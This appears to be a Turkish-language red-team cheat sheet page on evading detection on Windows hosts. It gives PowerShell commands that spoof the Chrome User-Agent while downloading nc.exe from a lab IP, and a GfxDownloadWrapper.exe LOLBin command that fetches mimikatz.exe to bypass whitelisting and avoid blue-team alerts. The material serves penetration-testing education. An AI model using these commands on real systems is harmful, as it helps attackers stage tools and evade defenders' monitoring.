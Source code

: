 ```yaml
---
icon: material/circle-small
---
```


# Evading Detection

## Changing User Agent

Yöneticiler User-Agent dizelerinden herhangi birini kara listeye almışsa `#!powershell Invoke-WebRequest` fonksiyonu kullanılarak varsayılan User-Agent değiştirilebilir. Örneğin Chrome dahili olarak kullanılıyorsa, ilgili User-Agent dizesinin ayarlanması isteğin meşru görünmesini sağlayabilir.

### Listing out User Agents

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name, @{ label="User Agent"; Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)} } | fl
```

```text title="Output"
Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

### Request with Chrome User Agent

```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome; Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

## LOLBAS / GTFOBins

Belirli uygulamaların beyaz listeye alınması, PowerShell veya Netcat araçlarının kullanılmasına engel olabilir. Ayrıca komut satırı günlükleri mavi takımı uyarabilir. Bu durumda LOLBins kullanmak gerekli olabilir. Örnek bir LOLBin, bazı sistemlere yüklenen `#!batch GfxDownloadWrapper.exe` sürücüsüdür ve yapılandırma dosyalarını düzenli aralıklarla indirme işlevini içerir.

Bu indirme işlevi aşağıdaki şekilde çağrılabilir:

```batch
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Bu tarz programlar beyaz listeye alınarak çalıştırılmasına izin verilebilir ve uyarıların dışında bırakılabilir.
